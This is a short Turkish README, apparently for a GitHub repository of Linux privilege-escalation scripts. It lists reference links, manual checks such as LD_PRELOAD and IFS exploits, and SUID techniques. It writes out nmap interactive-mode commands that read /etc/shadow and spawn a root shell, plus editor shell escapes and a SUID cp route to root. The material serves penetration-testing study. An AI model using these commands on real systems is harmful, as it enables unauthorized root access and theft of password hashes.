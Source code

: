 # Linux Yetki Yükseltme (Privilege Escalation)

Sağda solda denk geldiğim ve yetki yükseltme için işe yarayabilecek scriptler. Linux ve unix sistemler için konfigürasyon eksikliklerine ve yetki yükseltmeye sebep olabilecek zafiyetlere bakıyorlar.

tools klasörünün altında README dosyaları ile beraber bulunmakta.

## Bakılabilecek kaynaklar
- https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
- http://netsec.ws/?p=309
- https://n0where.net/linux-post-exploitation/
- https://highon.coffee/blog/linux-commands-cheat-sheet/
- http://www.rebootuser.com/?p=1623
- http://pentestmonkey.net/tools/audit/unix-privesc-check


## Manuel kontrol

- Shell Escape Sequences
- IFS Exploit
- LD_PRELOAD Exploit
- Symlinks

bkz -> http://www.dankalia.com/tutor/01005/0100501004.htm

## SUID bit 

````
- emacs - by entering alt+!
- vi - by entering :![commandname]
- man - by entering![command name] replacing [command name] with the program you wish to run.
````

````
nmap --interactive
> !whoami              # root
> !cat /etc/shadow     # SUCCESS: prints out hashed passwords
> !bash                # SUCCESS: launches root shell
bkz -> https://gist.github.com/dergachev/7916152
````

````
-rwsr-xr-x 1 root root 124932 Jan 14  2015 /bin/cp
cp komutu SUID biti etkin. Bu durumda /etc/passwd veya /etc/shadow dosyaları kullanılarak root olunabilir.
ayrıntılı bilgi için;
bkz -> http://yunusyildirim.blogspot.com.tr/2016/04/kevgir-vm-cozum-walkthrough.html
````
